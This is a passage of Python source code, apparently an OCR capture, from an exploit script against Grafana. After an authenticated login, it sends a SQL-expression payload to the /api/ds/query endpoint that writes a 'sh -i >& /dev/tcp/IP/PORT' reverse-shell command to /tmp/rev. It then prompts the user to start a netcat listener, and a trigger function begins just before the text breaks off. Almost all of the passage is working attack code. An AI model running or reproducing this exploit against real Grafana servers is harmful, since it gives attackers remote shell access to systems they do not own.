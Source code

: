 ```py
    if response.ok:
        print("[SUCCESS] Login successful!")
        return session  # Return the authenticated session
    else:
        print("[FAILURE] Login failed:", response.status_code, response.text)
        return None  # Return None if login fails

def create_reverse_shell(session, grafana_url, reverse_ip, reverse_port):
    """
    Create a malicious reverse shell payload in Grafana.

    Args:
        session (requests.Session): The authenticated session.
        grafana_url (str): The URL of the Grafana instance.
        reverse_ip (str): The IP address for the reverse shell.
        reverse_port (str): The port for the reverse shell.
    """
    # Construct the reverse shell command
    reverse_shell_command = f"/dev/tcp/{reverse_ip}/{reverse_port} 0>&1"

    # Define the payload to create a reverse shell
    payload = {
        "queries": [
            {
                "datasource": {
                    "name": "Expression",
                    "type": "__expr__",
                    "uid": "__expr__"
                },
                # Using the reverse shell command from the arguments
                "expression": f"SELECT 1;COPY (SELECT 'sh -i >& {reverse_shell_command}') TO '/tmp/rev';",
                "hide": False,
                "refId": "B",
                "type": "sql",
                "window": ""
            }
        ]
    }

    # Send the POST request to execute the payload
    response = session.post(
        f"{grafana_url}/api/ds/query?ds_type=__expr__&expression=true&requestId=Q100",
        json=payload
    )

    if response.ok:
        print("Reverse shell payload sent successfully!")
        print("Set up a netcat listener on " + reverse_port)
    else:
        print("Failed to send payload:", response.status_code, response.text)

def trigger_reverse_shell(session, grafana_url):
    """
    Trigger the reverse shell binary.

    Args:
        session (requests.Session): The authenticated session.
        grafana_url (str): The URL of the Grafana instance.
    """
    # SQL command to trigger the reverse shell
    payload = {
        "queries": [
```